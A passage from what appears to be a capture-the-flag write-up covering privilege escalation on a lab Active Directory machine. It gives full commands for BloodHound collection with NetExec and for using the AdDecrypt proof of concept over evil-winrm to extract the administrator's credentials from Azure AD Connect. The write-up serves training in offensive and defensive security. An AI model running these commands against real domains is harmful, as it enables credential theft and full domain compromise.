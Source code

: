 
## EoP[^5]

### Domain Enumeration

Let's use our foothold to collect domain information with [NetExec](../../../tools/tools/active-directory/netexec-cme.md), and then upload it to and analyze it with [BloodHound](../../../tools/tools/active-directory/bloodhound.md). The only interesting information we can find there, is that `mhope` is member of the `Azure Admins` group (Figure 8).

{% code overflow="wrap" %}
```bash
# collecting domain information
nxc ldap 10.10.10.172 -u mhope -p mhope_pass -k --bloodhound -ns 10.10.10.172 -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/monte_bh.png" alt=""><figcaption><p>Figure 8: The <code>Azure Admins</code> domain group.</p></figcaption></figure>

### Azure AD Connect

Based on [this](https://blog.xpnsec.com/azuread-connect-for-redteam/) post, it seems possible to exploit the Azure AD[^6] Connect service. This is the service responsible for syncing the local AD with Azure AD. In brief, the goal of this exploitation process is to access the configuration of the local database, grab the credentials for the account that handles this syncing process, and decrypt them.

Although it sounds scary, there is already a [PoC](https://github.com/VbScrub/AdSyncDecrypt) available. After downloading the [`AdDecrypt.zip`](https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0) file, we can follow the guidance on the PoC's repo and get the `administrator`'s credentials (Figure 9).

{% code overflow="wrap" %}
```bash
# connecting to the machine via WinRM
evil-winrm -i 10.10.10.172 -u mhope -p $(cat mhope_pass)
# uploading the required files
upload AdDecrypt.exe
upload mcrypt.dll
# changing to the specified directory
cd "C:\Program Files\Microsoft Azure AD Sync\Bin"
# executing the binary
c:\users\mhope\documents\AdDecrypt.exe -FullSQL
```
{% endcode %}


[^1]: Escalation of Privileges
[^2]: Active Directory
[^3]: Proof of Concept
[^4]: Elevation of Privileges
[^5]: Elevation of Privileges
[^6]: Active Directory